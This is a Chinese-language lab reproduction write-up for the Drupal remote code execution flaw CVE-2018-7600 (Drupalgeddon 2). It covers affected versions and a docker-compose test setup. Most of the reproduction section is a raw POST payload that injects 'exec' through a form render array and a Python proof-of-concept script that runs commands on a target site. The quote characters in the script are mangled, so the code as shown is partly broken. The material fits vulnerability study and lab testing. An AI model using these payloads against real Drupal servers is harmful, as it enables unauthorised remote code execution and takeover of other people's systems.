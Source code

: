 ```yaml
---
title: （CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞
id: zhfly2893
---
```


# （CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞

## 一、漏洞简介

Drupal是Drupal社区所维护的一套使用PHP语言开发的免费，开源的内容管理系统。版本受到影响：Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

## 二、漏洞影响

Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

## 三、复现过程

### 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d 
```

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7600](https://github.com/ianxtianxt/CVE-2018-7600)，我们向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103 `form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id` 
```

成功执行代码，这个代码最终执行了id命令：

![image](../img/373a1ad3552bf62fe4f1ac5c8fac9a71.png)

### **exploit.py**

```
#!/usr/bin/env python3
import sys
import requests

print (’################################################################’)

print (’# Proof-Of-Concept for CVE-2018-7600’)

print (’# by Vitalii Rudnykh’)

print (’# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders’)

print (’# [https://github.com/a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600)’)

print (’################################################################’)

print (‘Provided only for educational or information purposes\n’)

target = input('Enter target url (example: [https://domain.ltd/](https://domain.ltd/)): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)

# set verify = False if your proxy certificate is self signed

# remember to set proxies both for http and https

# example:

# proxies = {‘http’: ‘[http://127.0.0.1:8080](http://127.0.0.1:8080)’, ‘https’: ‘[http://127.0.0.1:8080](http://127.0.0.1:8080)’}

# verify = False

proxies = {}

verify = True

url = target + ‘user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax’

payload = {‘form_id’: ‘user_register_form’, ‘_drupal_ajax’: ‘1’, ‘mail[#post_render][]’: ‘exec’, ‘mail[#type]’: ‘markup’, ‘mail[#markup]’: ‘echo “;-)” | tee hello.txt’} `r = requests.post(url, proxies=proxies, data=payload, verify=verify)

check = requests.get(target + ‘hello.txt’, proxies=proxies, verify=verify)

if check.status_code != 200:

sys.exit(“Not exploitable”)

print (’\nCheck: '+target+‘hello.txt’)` 
```

## 参考链接

> https://vulhub.org/#/environments/drupal/CVE-2018-7600/